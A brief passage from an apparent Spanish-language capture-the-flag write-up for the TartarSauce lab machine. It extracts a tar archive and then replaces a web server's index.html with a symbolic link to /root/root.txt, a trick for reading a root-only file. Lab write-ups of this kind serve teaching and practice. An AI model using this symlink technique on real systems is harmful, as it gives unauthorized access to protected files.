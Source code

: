 ```console
$ tar -zxvf comprimido.tar
```
![](/assets/img/commons/TartarSauce/terminal7.png)

y nos metemos a /var/wwww/html donde al index.html le crearemos un enlace símbolico a donde apunte a la flag del usuario root /root/root.txt *ln -s -f /root/root.txt index.html*
